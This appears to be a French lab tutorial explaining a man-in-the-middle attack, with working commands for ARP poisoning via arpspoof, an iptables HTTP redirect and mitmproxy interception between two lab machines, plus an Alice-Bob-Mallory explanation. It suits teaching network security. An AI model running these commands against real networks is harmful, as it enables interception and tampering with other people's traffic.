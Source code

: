 ### Exemple Complet de Commandes

#### Machine Attaquant (Attacker)

1. **Empoisonner les Tables ARP**
   ```sh
   sudo arpspoof -i enp0s8 -t 10.0.2.20 10.0.2.30
   sudo arpspoof -i enp0s8 -t 10.0.2.30 10.0.2.20
   ```

2. **Redirection du Trafic HTTP vers le port 8081**
   ```sh
   sudo iptables -t nat -A PREROUTING -i enp0s8 -p tcp --dport 80 -j REDIRECT --to-port 8081
   ```

3. **Lancer mitmproxy ou mitmweb sur le port 8081**
   - **mitmproxy** :
     ```sh
     sudo mitmproxy -p 8081
     ```
   - **mitmweb** (avec interface web) :
     ```sh
     sudo mitmweb -p 8081
     ```

### Explications Vulgarisées

#### Qu'est-ce qu'une Attaque Man-in-the-Middle (MITM) ?

Imaginez deux amis, Alice (Victim1) et Bob (Victim2), qui échangent des lettres. Mallory (Attacker) est un individu malveillant qui intercepte et lit toutes les lettres échangées entre Alice et Bob, et parfois il modifie le contenu des lettres avant de les envoyer à la destination prévue. Une attaque Man-in-the-Middle fonctionne de manière similaire en interceptant les communications entre deux parties.

#### Comment l'Attaque Fonctionne-t-elle ?

1. **Empoisonnement ARP** :
   - Mallory trompe Alice et Bob en leur faisant croire que son adresse (adresse MAC de Mallory) est celle de l'autre.
   - Résultat : Tout le trafic entre Alice et Bob passe par Mallory.

2. **Redirection du Trafic** :
   - Mallory redirige tout le trafic HTTP vers un proxy (mitmproxy) pour inspecter et éventuellement modifier les communications.

### Résumé des Commandes

#### Machine Attaquant (Attacker)

```sh
# Activer le transfert IP
echo 1 | sudo tee /proc/sys/net/ipv4/ip_forward

# Empoisonner les tables ARP
sudo arpspoof -i enp0s8 -t 10.0.2.20 10.0.2.30
sudo arpspoof -i enp0s8 -t 10.0.2.30 10.0.2.20

# Rediriger le trafic HTTP vers le port 8081
sudo iptables -t nat -A PREROUTING -i enp0s8 -p tcp --dport 80 -j REDIRECT --to-port 8081

# Lancer mitmproxy ou mitmweb sur le port 8081
sudo mitmproxy -p 8081
# ou
sudo mitmweb -p 8081
```
